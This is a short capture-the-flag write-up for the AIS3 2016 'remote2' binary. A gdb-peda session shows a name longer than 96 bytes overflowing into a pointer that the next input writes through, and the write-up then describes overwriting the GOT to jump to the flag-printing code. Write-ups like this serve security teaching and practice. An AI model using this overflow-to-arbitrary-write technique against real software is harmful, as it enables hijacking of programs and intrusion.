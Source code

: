 0x0 Intorduction
================

`root@CTF:~/CTF/ais3_2016/remote/2# file remote2 
remote2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=24b23ffde625a8d09b757ff17387c318d3934bb7, stripped`

This is a 32 bit executable.


	Welcome to AIS3 online registration system!


	Show me your name: a

	Welcome a!


	Enter secret #1: a

	Enter secret #2: Checking ...

	Registration failed!

0x1 Vulnerability
=================
	
	gdb-peda$ r

	Starting program: /root/CTF/ais3_2016/remote/2/remote2 

	Welcome to AIS3 online registration system!


	Show me your name: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaazzzz

	Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaazzzz!


	Enter secret #1: [----------------------------------registers-----------------------------------]

	EAX: 0x7a7a7a7a ('zzzz')

	EBX: 0xf7fb0000 --> 0x1a8da8 

	ECX: 0xf7fb1878 --> 0x0 

	EDX: 0x0 

	ESI: 0x0 
	
	EDI: 0x0 

	EBP: 0xffffd498 --> 0xffffd4c8 --> 0x0 

	ESP: 0xffffd470 --> 0x80488c2 --> 0x45006425 ('%d')

	EIP: 0x804868a (call   0x8048550 <__isoc99_scanf@plt>)

	EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)

	[-------------------------------------code-------------------------------------]

	   0x804867c:	mov    eax,DWORD PTR [ebp-0x10]

	   0x804867f:	mov    DWORD PTR [esp+0x4],eax

	   0x8048683:	mov    DWORD PTR [esp],0x80488c2

	=> 0x804868a:	call   0x8048550 <__isoc99_scanf@plt>

	   0x804868f:	mov    DWORD PTR [esp],0x80488c5

	   0x8048696:	call   0x80484a0 <printf@plt>

	   0x804869b:	mov    eax,ds:0x804a080

	   0x80486a0:	mov    DWORD PTR [esp],eax

	Guessed arguments:
	
	arg[0]: 0x80488c2 --> 0x45006425 ('%d')

	arg[1]: 0x7a7a7a7a ('zzzz')

[------------------------------------stack-------------------------------------]

If you input name bigger then 96 bytes,next input will be controller to write anywhere.

So we overwrite got.plt and jump to 0x80486e5 to get the flag. 
